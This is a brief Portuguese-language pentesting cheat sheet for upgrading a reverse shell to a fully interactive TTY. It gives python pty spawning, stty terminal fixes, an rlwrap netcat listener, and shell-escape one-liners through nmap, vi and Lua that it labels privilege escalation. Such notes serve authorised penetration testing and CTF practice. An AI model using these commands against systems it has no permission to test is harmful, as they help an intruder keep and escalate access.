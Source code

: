 # Melhorar Shell

# **Fully Interactive TTY**

```
                                In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
                                In Attacker console
stty -a
stty raw -echo;fg
export SHELL=bash
export TERM=xterm-256color
stty rows 42 columns 190

                                In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>

Melhorar Powershell 
Fazer isto no terminal antes de receber a conecção

rlwrap nc -nlvp 1234
```

- **TTY Shell**
    - `python -c 'import pty;pty.spawn("/bin/bash")'`
    - `echo os.system('/bin/bash')`
    - `/bin/sh –i`
    - `execute('/bin/sh')`
        - LUA
    - `!sh`
        - Privilege Escalation via nmap
    - `:!bash`
        - Privilege escalation via vi